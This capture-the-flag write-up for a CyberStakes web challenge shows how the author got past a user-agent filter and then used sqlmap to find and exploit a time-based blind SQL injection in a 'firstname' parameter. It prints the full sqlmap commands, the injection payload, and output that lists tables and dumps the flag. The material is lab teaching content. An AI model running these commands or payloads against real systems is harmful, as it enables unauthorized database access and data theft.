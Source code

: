 # The SQL Always Sucks

* **Category:** Web Security
* **Points:** 150
* **Challenge:** We discovered an application in our environment that is apparently under development. Please identify the risk it poses.

<br /> 

### **DISCLAIMER:** The challenge has been taken down from the CyberStakes website, so I was unable to redo the challenge and take complete notes.  Some of my command output will have a *...snip...* because I didn't record the full output.  

<br />

Navigating to the webserver in FireFox, http://challenge.acictf.com:28986/, we can see that there is a textbox to input our first name.  Looking at the source of the page, we find something interesting:
```
<!--Dev is only using Sqlite. Bobby Needs to fix this -->
<!--Form to retrieve last name from first name. In Dev.-->

```

<br />

So we know that the target is using an Sqlite database.  One of the hints states may curl and sqlmap will not work unless we use the proper user-agent string.  Lets test this out with curl:
```
curl http://challenge.acictf.com:28986/

User-Agent Alert! Help! I'm Being Hacked!!! /dead
```
<br /> 

Ok, lets open up burpsuite and use the proxy to intercept a GET request:

<br />

![burp](https://github.com/eesantiago/Writeups/blob/master/CyberStakes_2020/sql_always_sucks/burp.png)

<br /> 

Now using the user-agent that we intercepted, lets try curl again:
```
curl -A "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" http://challenge.acictf.com:28986/
```

<br /> 

This time we are successful.  Now let use sqlmap to test if the *firstname* parameter is vulnerable to SQL injection.  After increasing the level of tests and the risk of the tests, I was able to enumerate the tables in the database:
```
sqlmap --dbms=SQLite --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" -u http://challenge.acictf.com:28986/?firstname=Hacker --risk=3 --level=3 --tables


...snip...

Parameter: firstname (GET)
    Type: AND/OR time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: firstname=Hacker' OR 7813=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))-- eBHe
---
[15:02:17] [INFO] testing SQLite
[15:02:17] [INFO] confirming SQLite
[15:02:17] [INFO] actively fingerprinting SQLite
[15:02:17] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[15:02:17] [INFO] fetching tables for database: 'SQLite_masterdb'
[15:02:17] [INFO] fetching number of tables for database 'SQLite_masterdb'
[15:02:17] [INFO] resumed: 2
[15:02:17] [INFO] resumed: SuperSecretData
[15:02:17] [INFO] resumed: Users
Database: SQLite_masterdb
[2 tables]
+-----------------+
| SuperSecretData |
| Users           |
+-----------------+

...snip...
```

<br /> 

Now lets enumerate the columns in the *SuperSecretData* table:
```
sqlmap --dbms=SQLite --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" -u http://challenge.acictf.com:28986/?firstname=Hacker --risk=3 --level=3 -T SuperSecretData --columns


...snip...

Parameter: firstname (GET)
    Type: AND/OR time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: firstname=Hacker' OR 7813=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))-- eBHe
---
[08:40:45] [INFO] testing SQLite
[08:40:45] [INFO] confirming SQLite
[08:40:45] [INFO] actively fingerprinting SQLite
[08:40:45] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[08:40:45] [INFO] resumed: CREATE TABLE `SuperSecretData` (\n\t`ID`\tINTEGER,\n\t`flag`\tTEXT\n)
Database: SQLite_masterdb
Table: SuperSecretData
[2 columns]
+--------+---------+
| Column | Type    |
+--------+---------+
| flag   | TEXT    |
| ID     | INTEGER |
+--------+---------+

...snip...
```

<br />

Last we dump the contents of the *flag* column:
```
sqlmap --dbms=SQLite --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" -u http://challenge.acictf.com:28986/?firstname=Hacker --risk=3 --level=3 -T SuperSecretData -C flag --dump


...snip...

Database: SQLite_masterdb
Table: SuperSecretData
[1 entry]
+----+----------------------------------+
| ID | flag                             |
+----+----------------------------------+
| 1  | ACI{59df47a3243d2f239ea878a7266} |
+----+----------------------------------+

...snip...
```

<br />

## Flag: ACI{59df47a3243d2f239ea878a7266}
